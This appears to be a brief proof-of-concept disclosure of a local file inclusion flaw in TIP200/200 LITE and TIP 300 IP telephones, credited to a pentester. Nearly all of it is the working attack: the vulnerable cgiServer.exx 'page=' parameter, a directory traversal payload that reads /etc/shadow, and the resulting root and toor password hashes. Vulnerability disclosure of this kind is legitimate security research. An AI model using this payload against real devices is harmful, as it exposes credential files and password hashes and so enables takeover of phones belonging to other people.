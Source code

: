 PoC: https://youtu.be/nNKBRx8IglI
    
    -------------------------------------------------------------------------------------------------------------
    ------------- 0day: TELEFONE IP TIP200/200 LITE & TIP 300 | Local File Include | ----------------------------
    ------------------------------- P0c Author: Lucas Souza | Pentester at ProsecT ------------------------------
    -------------------------------------------------------------------------------------------------------------

URL parameter ->http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -> ../../../../etc/shadow

    root:$1$.jKlhz0B$/Nmgj0klrsZk0nYc1BLUR/:11876:0:99999:7:::
    toor:$1$6sa7xxqo$eV3t7Nb1tPqjOWT1s3/ks1:11876:0:99999:7:::

                                                                                 https://prosect.com.br/
